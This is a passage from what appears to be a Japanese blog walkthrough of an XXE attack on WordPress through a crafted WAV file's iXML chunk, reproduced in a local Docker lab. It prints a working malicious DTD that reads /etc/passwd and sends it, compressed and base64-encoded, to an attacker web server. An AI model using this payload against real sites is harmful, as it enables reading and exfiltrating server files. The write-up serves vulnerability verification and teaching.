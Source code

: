 > iXML チャンクを挿入 (Insert iXML Chunk)  
> プロジェクト名、作成者、フレームレートなどのプロジェクト関連の付加的な情報を追加します。

[https://steinberg.help/cubase_pro_artist/v9/ja/cubase_nuendo/topics/export_audio_mixdown/export_audio_mixdown_file_format_wave_files_r.html:embed:cite]

### 攻撃者Webサーバを起動

　攻撃者Webサーバを起動します。  
本来ではインターネット上で動作させて攻撃対象WordPressからリクエストを受け付けますが、検証ではホストPC上で動作させています。  

[f:id:motikan2010:20210417215029p:plain:alt=攻撃者Webサーバを起動:w600]

　コンテナ内からホストPCにアクセスするためには `host.docker.internal` ドメインを使用します。

<div class="md-code" style="width:100%">
```
# curl http://host.docker.internal:8001/evil.dtd -v

> GET /evil.dtd HTTP/1.1
> Host: host.docker.internal:8001
> User-Agent: curl/7.64.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Host: host.docker.internal:8001
< Date: Sun, 18 Apr 2021 02:12:22 GMT
< Connection: close
< Content-Type: application/xml-dtd
< Content-Length: 193
<
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#37; trick SYSTEM 'http://host.docker.internal:8001/?p=%file;'>" >
```
</div>

### WAVファイルのアップロード

　 WordPressの管理画面にログインし、先ほど生成したWAVファイルをアップロードします。

　投稿者ロールのアカウントであるため、管理者ロールと比べてできることが少ないですがメディアのアップロードは可能です。  

[f:id:motikan2010:20210417214913p:plain:alt=WAVファイルのアップロード:w700]

　WAVファイルをアップロードした瞬間に攻撃者Webサーバへ攻撃対象WordPressからアクセスがあります。

### 攻撃者Webサーバのログを確認

　アクセスログから `evil.dtd` と `謎のBase64文字列` へのアクセスが確認できます。

[f:id:motikan2010:20210417214819p:plain:alt=攻撃者Webサーバのログ:w700]

　赤枠で囲っている部分が `/etc/passwd`ファイルの内容です。圧縮&エンコードされているので今は読めませんが...。

### ログから取得した文字列の解凍
